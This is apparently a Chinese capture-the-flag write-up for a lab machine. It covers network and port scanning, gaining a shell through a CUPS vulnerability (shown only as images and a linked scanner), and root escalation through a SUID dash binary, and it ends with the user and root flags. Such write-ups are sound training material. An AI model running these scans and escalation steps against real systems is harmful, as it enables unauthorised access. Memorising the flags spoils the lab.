## 网段扫描
```
└─# arp-scan -l
Interface: eth0, type: EN10MB, MAC: 00:0c:29:df:e2:a7, IPv4: 192.168.26.128
WARNING: Cannot open MAC/Vendor file ieee-oui.txt: Permission denied
WARNING: Cannot open MAC/Vendor file mac-vendor.txt: Permission denied
Starting arp-scan 1.10.0 with 256 hosts (https://github.com/royhills/arp-scan)
192.168.26.1    00:50:56:c0:00:08       (Unknown)
192.168.26.2    00:50:56:e8:d4:e1       (Unknown)
192.168.26.194  00:0c:29:ab:08:30       (Unknown)
192.168.26.254  00:50:56:e5:dc:17       (Unknown)

4 packets received by filter, 0 packets dropped by kernel
Ending arp-scan 1.10.0: 256 hosts scanned in 1.905 seconds (134.38 hosts/sec). 4 responded
```

## 端口扫描

```
└─# nmap -p- -sC -sV 192.168.26.194
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-01-21 07:39 EST
Stats: 0:00:02 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 1.86% done; ETC: 07:40 (0:00:53 remaining)
Nmap scan report for 192.168.26.194 (192.168.26.194)
Host is up (0.0012s latency).
Not shown: 65532 closed tcp ports (reset)
PORT    STATE SERVICE VERSION
22/tcp  open  ssh     OpenSSH 8.4p1 Debian 5+deb11u2 (protocol 2.0)
| ssh-hostkey: 
|   3072 f0:e6:24:fb:9e:b0:7a:1a:bd:f7:b1:85:23:7f:b1:6f (RSA)
|   256 99:c8:74:31:45:10:58:b0:ce:cc:63:b4:7a:82:57:3d (ECDSA)
|_  256 60:da:3e:31:38:fa:b5:49:ab:48:c3:43:2c:9f:d1:32 (ED25519)
80/tcp  open  http    Apache httpd 2.4.56 ((Debian))
|_http-server-header: Apache/2.4.56 (Debian)
|_http-title: Site doesn't have a title (text/html).
631/tcp open  ipp     CUPS 2.3
|_http-server-header: CUPS/2.3 IPP/2.1
| http-robots.txt: 1 disallowed entry 
|_/
|_http-title: Inicio - CUPS 2.3.3op2
MAC Address: 00:0C:29:AB:08:30 (VMware)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 61.84 seconds
```

## 获取webshell
  
  
  
  
  
>无版本
>
  
  
  

>地址：https://github.com/MalwareTech/CVE-2024-47176-Scanner
>
  
  
  
  

>慢慢找
>

  
  

>用这个可以伪装打印完成操作
>
  
  
  

## 提权
```
lp@fuser:/$ sduo -l
bash: sduo: command not found
lp@fuser:/$ sudo -l
bash: sudo: command not found
'lp@fuser:/$ sudo -l
bash: sudo: command not found
```
  
  

>机器掉了，这个打印机就费了，建议给一个.ssh,或者不用工具，直接find / -perm -u=s -type f 2>/dev/null
>
```
find / -perm -u=s -type f 2>/dev/null
/usr/bin/dash
/usr/bin/mount
/usr/bin/su
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/chsh
/usr/bin/umount
/usr/bin/passwd
/usr/bin/newgrp
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/libexec/polkit-agent-helper-1
lp@fuser:~$ /usr/bin/dash -p
/usr/bin/dash -p
# id
id
uid=7(lp) gid=7(lp) euid=0(root) groups=7(lp)
# ls 
ls
cups-dbus-notifier-lockfile
# ls -al
ls -al
total 8
drwxrwx--T 2 root lp 4096 Jan 21 14:59 .
drwx--x--- 3 root lp 4096 Jan 21 14:59 ..
-rw------- 1 lp   lp    0 Jan 21 14:59 cups-dbus-notifier-lockfile
# cd /root
cd /root
# ls -al
ls -al
total 28
drwx------  3 root root 4096 Nov  1 12:41 .
drwxr-xr-x 18 root root 4096 Oct 26  2023 ..
lrwxrwxrwx  1 root root    9 Oct 26  2023 .bash_history -> /dev/null
-rw-r--r--  1 root root 3526 Jan 15  2023 .bashrc
drwxr-xr-x  3 root root 4096 Nov  1 12:41 .local
-rw-r--r--  1 root root  161 Jul  9  2019 .profile
-rw-r--r--  1 root root   66 Oct 26  2023 .selected_editor
-r--------  1 root root   33 Nov  1 09:08 root.txt
# cat root.txt
cat root.txt
fe82ce45606fc67448677e4218931a77
```

>到这里靶机结束
>
>userflag:523ac6c4f33201cec8e933042dd37ba6
>
>rootflag:fe82ce45606fc67448677e4218931a77
>